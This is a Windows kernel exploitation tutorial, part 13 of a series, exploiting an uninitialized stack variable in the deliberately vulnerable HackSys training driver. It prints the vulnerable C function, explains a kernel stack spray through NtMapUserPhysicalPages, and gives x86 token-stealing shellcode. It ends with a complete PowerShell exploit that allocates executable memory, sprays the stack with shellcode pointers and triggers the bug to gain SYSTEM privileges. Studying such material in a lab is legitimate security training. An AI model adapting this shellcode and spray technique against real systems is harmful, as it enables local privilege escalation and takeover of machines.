


NTSTATUS TriggerUninitializedStackVariable(IN PVOID UserBuffer) {
ULONG UserValue = 0;
ULONG MagicValue = 0xBAD0B0B0;
NTSTATUS Status = STATUS_SUCCESS;
#ifdef SECURE
// Secure Note: This is secure because the developer is properly initializing
// UNINITIALIZED_STACK_VARIABLE to NULL and checks for NULL pointer before calling
// the callback
UNINITIALIZED_STACK_VARIABLE UninitializedStackVariable = {0};
#else
// Vulnerability Note: This is a vanilla Uninitialized Stack Variable vulnerability
// because the developer is not initializing 'UNINITIALIZED_STACK_VARIABLE' structure
// before calling the callback when 'MagicValue' does not match 'UserValue'
UNINITIALIZED_STACK_VARIABLE UninitializedStackVariable;
#endif
PAGED_CODE();
__try {
// Verify if the buffer resides in user mode
ProbeForRead(UserBuffer,
sizeof(UNINITIALIZED_STACK_VARIABLE),
(ULONG)__alignof(UNINITIALIZED_STACK_VARIABLE));
// Get the value from user mode
UserValue = *(PULONG)UserBuffer;
DbgPrint("[+] UserValue: 0x%p\n", UserValue);
DbgPrint("[+] UninitializedStackVariable Address: 0x%p\n", &UninitializedStackVariable);
// Validate the magic value
if (UserValue == MagicValue) {
UninitializedStackVariable.Value = UserValue;
UninitializedStackVariable.Callback = &UninitializedStackVariableObjectCallback;
}
DbgPrint("[+] UninitializedStackVariable.Value: 0x%p\n", UninitializedStackVariable.Value);
DbgPrint("[+] UninitializedStackVariable.Callback: 0x%p\n", UninitializedStackVariable.Callback);
#ifndef SECURE
DbgPrint("[+] Triggering Uninitialized Stack Variable Vulnerability\n");
#endif
// Call the callback function
if (UninitializedStackVariable.Callback) {
UninitializedStackVariable.Callback();
}
}
__except (EXCEPTION_EXECUTE_HANDLER) {
Status = GetExceptionCode();
DbgPrint("[-] Exception Code: 0x%X\n", Status);
}
return Status;
}
Part 13: Kernel Exploitation -> Uninitialized Stack Variable
Hola, and welcome back to part 13 of the Windows exploit development tutorial series. Today we will be exploiting an uninitialized Kernel stack variable using @HackSysTeam's extreme vulnerable driver. For more details on setting up the debugging environment see part 10. I quickly want to give a shout-out to @tiraniddo for his ever professional n00b hotline, let's get to it!
Resources:
+ NtMapUserPhysicalPages and Kernel Stack-Spraying Techniques (@j00ru) - here
Recon the challenge
We can have a brief look at the vulnerable function in question (here).
If we pass the driver function the correct magic value then it initializes the variable and callback parameters. If we pass an incorrect value then this does not happen. The problem here is that the variable is not set to a specific value when it is defined. As the variable resides on the stack it will contain whatever random junk is left behind by previous function calls. Notice that the code has a check (if UninitializedStackVariable.Callback...) which does nothing to protect it from a crash.
The IOCTL for this function is 0x22202F. To see how the IOCTL can be identified, please check out part 10 and part 11 of this series. Let's jump into IDA and have a look at the function.
Let's consider the 4 function blocks in the image above. If the comparison succeeds then we hit the green block where our variable gets set to proper values and then nothing bad happens in the red block where the callback function is called.

Nice, however, if we fail the comparison then we skip the green block, further down we end up calling whatever junk happens to be on the kernel stack at the time!
This data is volatile, if you try to reproduce this, you are likely to see different values in WinDbg. Before we BSOD the box, let's quickly see how far this variable is from the start of our current stack.
To get the distance to the faulty pointer, we do the following:
0x8a15ced0 - 0x8a15c9cc = 0x504 (1284 bytes)
Let's do a sanity check BSOD by resuming execution flow.
Pwn all the things!
NtMapUserPhysicalPages
If we can overwrite that IntPtr on the kernel stack with a pointer to our shellcode then we win but how can we do that? Turns out Kernel stack spraying is a thing, I strongly recommend you to read this article by @j00ru. There is an undocumented function, NtMapUserPhysicalPages, we don't really care what it does but as part of it's functionality it copies input bytes into a local buffer on the kernel stack. The maximum size it can copy over is 1024 * IntPtr::Size (4 on 32-bit => 4096 bytes). That is perfect for our needs, the following POC can be used to illustrate this!
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("ntdll.dll")]
public static extern uint NtMapUserPhysicalPages(
IntPtr BaseAddress,
UInt32 NumberOfPages,
Byte[] PageFrameNumbers);
}
"@
# $KernelStackSpray = 4*1024
$KernelStackSpray = [System.BitConverter]::GetBytes(0xdeadb33f) * 1024
# This call will fail with NTSTATUS = 0xC00000EF (STATUS_INVALID_PARAMETER_1),
# however, by that time the buffer is already on the Kernel stack ;)
[EVD]::NtMapUserPhysicalPages([IntPtr]::Zero, 1024, $KernelStackSpray) |Out-Null
Let's put a breakpoint on the return for NtMapUserPhysicalPages, run our POC and inspect the kernel stack.

Perfect, after NtMapUserPhysicalPages returns, the stack should be set up so we can taint the uninitialized stack variable when we call the driver function. Notice that the spray is not contiguous, after looking around a bit I found that there are sizable chunks on the stack but they are split up by (I presume) stored values. Luckily though, the offset we need seems to be intact.
One key point to keep in mind is that the stack is volatile, as such it is best to spray it right before triggering the bug and perform as few operations as possible in between to avoid the buffer getting clobbered!
Shellcode
Again, we are overwriting a function call here so we can reuse the token stealing shellcode from the previous part without making any modifications.
$Shellcode = [Byte[]] @( #---[Setup] 0x60, # pushad 0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, # mov eax, fs:[KTHREAD_OFFSET] 0x8B, 0x40, 0x50, # mov eax, [eax + EPROCESS_OFFSET] 0x89, 0xC1, # mov ecx, eax (Current _EPROCESS structure) 0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET] #---[Copy System PID token] 0xBA, 0x04, 0x00, 0x00, 0x00, # mov edx, 4 (SYSTEM PID) 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] <-| 0x2D, 0xB8, 0x00, 0x00, 0x00, # sub eax, FLINK_OFFSET | 0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx | 0x75, 0xED, # jnz ->| 0x8B, 0x90, 0xF8, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET] 0x89, 0x91, 0xF8, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx #---[Recover] 0x61, # popad 0xC3 # ret )
Setup
Our exploit work-flow will be as follows: (1) put our shellcode in memory somewhere, (2) spray the kernel stack with pointers to our shellcode and (3) trigger the uninitialized variable vulnerability.
Game Over
That should be the whole run-through, please refer to the full exploit below for more information.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr VirtualAlloc(
IntPtr lpAddress,
uint dwSize,
UInt32 flAllocationType,
UInt32 flProtect);
[DllImport("ntdll.dll")]
public static extern uint NtMapUserPhysicalPages(
IntPtr BaseAddress,
UInt32 NumberOfPages,
Byte[] PageFrameNumbers);
}
"@
# Compiled with Keystone-Engine
# Hardcoded offsets for Win7 x86 SP1
$Shellcode = [Byte[]] @(
#---[Setup]
0x60, # pushad
0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, # mov eax, fs:[KTHREAD_OFFSET]
0x8B, 0x40, 0x50, # mov eax, [eax + EPROCESS_OFFSET]
0x89, 0xC1, # mov ecx, eax (Current _EPROCESS structure)
0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET]
#---[Copy System PID token]
0xBA, 0x04, 0x00, 0x00, 0x00, # mov edx, 4 (SYSTEM PID)
0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] <-|
0x2D, 0xB8, 0x00, 0x00, 0x00, # sub eax, FLINK_OFFSET |
0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx |
0x75, 0xED, # jnz ->|
0x8B, 0x90, 0xF8, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET]
0x89, 0x91, 0xF8, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx
#---[Recover]
0x61, # popad
0xC3 # ret
)
# Write shellcode to memory
echo "`n[>] Allocating ring0 payload.."
[IntPtr]$ShellcodePtr = [EVD]::VirtualAlloc([System.IntPtr]::Zero, $Shellcode.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($Shellcode, 0, $ShellcodePtr, $Shellcode.Length)
echo "[+] Payload size: $($Shellcode.Length)"
echo "[+] Payload address: 0x$("{0:X8}" -f $ShellcodePtr.ToInt32())"
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
# j00ru -> nt!NtMapUserPhysicalPages and Kernel Stack-Spraying Techniques
# Shellocde IntPtr spray..
$KernelStackSpray = [System.BitConverter]::GetBytes($ShellcodePtr.ToInt32()) * 1024
echo "`n[>] Kernel stack spray.."
echo "[+] Spray buffer: $(1024*[IntPtr]::Size)"
echo "[+] Payload size: $([IntPtr]::Size)`n"
echo "[>] Call NtMapUserPhysicalPages & trigger bug.."
echo "[+] Radio silence..`n"
[EVD]::NtMapUserPhysicalPages([IntPtr]::Zero, 1024, $KernelStackSpray) |Out-Null
$Buffer = [System.BitConverter]::GetBytes(0xdeadb33f)
[EVD]::DeviceIoControl($hDevice, 0x22202F, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero) |Out-null